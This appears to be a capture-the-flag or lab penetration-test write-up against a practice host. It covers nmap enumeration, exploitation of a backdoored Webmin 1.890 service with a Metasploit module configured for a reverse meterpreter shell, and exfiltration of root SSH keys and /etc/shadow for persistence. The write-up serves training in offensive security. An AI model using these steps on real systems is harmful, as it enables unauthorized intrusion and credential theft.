

## 10.200.185.200

### Initial Information
The target is publicly available and an IP address was provided.

Our goal is to compromise the exposed target and establish a base from which further penetration into the private network is possible.

## Enumeration
### NMAP Scans

```bash
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN 10.200.185.200
```

revealed 4 open TCP ports:

| port | service |
| --- | --- |
| tcp:22 | SSH | 
| tcp:80 | HTTP | 
| tcp:443 | HTTPS |
| tcp:9090 | zeus-admin |
| tcp:10000 | MiniServ 1.890 (Webmin httpd) |

### port 22
* OpenSSH 8.0 (protocol 2.0)
* no further action

### port 80 / 443
* both ports produce a failed redirect to thomaswreath.thm, indicating incorrectly configured DNS.
* adding this entry to the attacker `hosts` configuration file allows onward access to the underlying website:
```
10.200.185.200 thomaswreath.thm
```
* the pages contain personal information for Mr Thomas Wreath including: history of career and education, interests, personal contact information, a photo of the individual.

### port 10000
* webmin service is exposed and version reported is 1.89
* navigating to this location confirms the presence of a webmin login portal

* a search against exploit-db shows a vulnerability for webmin version <1.920<sup>[1]</sup> which allows unauthenticated remote code execution.

## Initial Exploitation
A metasploit module is available for the webmin vulnerability - use of which provides root access to the machine with the following configuration:

```
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     10.200.185.200   yes       The target host(s), see https://gith
                                         ub.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface
                                         to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to
                                          listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   SSLCert                     no        Path to a custom SSL certificate (de
                                         fault is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (def
                                         ault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.50.182.73     yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)
```

## Evidence
```bash
[root@prod-serv ~]$ hostname; whoami; ip a
prod-serv
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:38:98:fb:ba:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.200.185.200/24 brd 10.200.185.255 scope global dynamic noprefixroute eth0
       valid_lft 2735sec preferred_lft 2735sec
    inet6 fe80::38:98ff:fefb:bad7/64 scope link 
       valid_lft forever preferred_lft forever

```

## Establishing Persistence
Our scans had previously revealed that SSH access to the box was possible. Investigation of the `/root` directory revealed a `.ssh` folder containing keys which could be used for remote access.  This directory was exfiltrated for future connections.

The `/etc/shadow` file was exfiltrated for investigation.

## Move Laterally
Determining hosts **prod-serv** has connected to:
```bash
[root@prod-serv ~]$ arp -a
ip-10-200-185-1.eu-west-1.compute.internal (10.200.185.1) at 02:81:d2:e0:8a:a3 [ether] on eth0

```


---
##### [1] https://www.exploit-db.com/exploits/47230, accessed 2021-12-27 